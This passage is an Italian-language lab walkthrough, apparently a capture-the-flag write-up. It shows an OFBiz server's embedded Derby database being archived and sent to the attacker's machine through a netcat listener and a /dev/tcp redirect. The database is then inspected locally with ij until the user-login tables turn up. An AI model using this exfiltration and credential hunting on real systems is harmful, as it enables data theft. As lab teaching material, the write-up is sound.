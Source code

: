 ```bash
ofbiz@bizness:/opt/ofbiz/runtime/data/derby$ ls -la
total 24
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 Dec 21 09:15 .
drwxr-xr-x 3 ofbiz ofbiz-operator 4096 Dec 21 09:15 ..
-rw-r--r-- 1 ofbiz ofbiz-operator 2320 May 23 07:04 derby.log
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 23 07:04 ofbiz
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 23 07:04 ofbizolap
drwxr-xr-x 5 ofbiz ofbiz-operator 4096 May 23 07:04 ofbiztenant
```

Poiché Derby è un database incorporato, non ha una porta a cui possiamo connetterci, né un singolo file che possiamo enumerare (come in SQLite, ad esempio). I dati vengono archiviati in una combinazione di file e cartelle diversi. Fortunatamente, possiamo usare il comando ij fornito da derby-tools per dare un senso a questo formato.

> [NB] Il pacchetto può essere installato sulla maggior parte delle distribuzioni Linux utilizzando un gestore di pacchetti come apt:
> sudo apt install derby-tools

Per prima cosa estraiamo la cartella ofbiz all'interno della directory derby sul nostro sistema locale. Localmente, impostiamo un ascoltatore Netcat che scrive su un file:

```bash
nc -nlvp 4444 > ofbiz.tar
```

Sulla destinazione, utilizziamo tar per comprimere la directory in un singolo file, quindi inserirla in /dev/tcp per scriverla nel nostro nc

```bash
cd /opt/ofbiz/runtime/data/derby
tar cvf ofbiz.tar ofbiz
cat ofbiz.tar > /dev/tcp/10.10.14.21/4444
```

Una volta scaricato, estraiamo l'archivio e utilizziamo ij per ispezionare il database sulla nostra macchina attaccante.

La connessione al database vero e proprio non è esattamente semplice, ma un po' più di ricerca ci porta a questo comando:

```bash
ij> connect 'jdbc:derby:/opt/ofbiz/runtime/data/derby/ofbiz';
```

Nel nostro caso, dobbiamo solo cambiare la directory in ./ofbiz :

```bash
ij> connect 'jdbc:derby:./ofbiz';
```

Una volta connessi, possiamo utilizzare normali istruzioni SQL per interagire con il database.

```bash
SHOW TABLES;
```

L'enumerazione delle tabelle rivela 877 voci. Li esaminiamo fino a quando questi attirano la nostra attenzione:
```bash

|USER_LOGIN                    |
|USER_LOGIN_HISTORY            |
|USER_LOGIN_PASSWORD_HISTORY   |
|USER_LOGIN_SECURITY_GROUP     |
|USER_LOGIN_SECURITY_QUESTION  |
|USER_LOGIN_SESSION            |
|USER_PREFERENCE               |
|USER_PREF_GROUP_TYPE          |

```
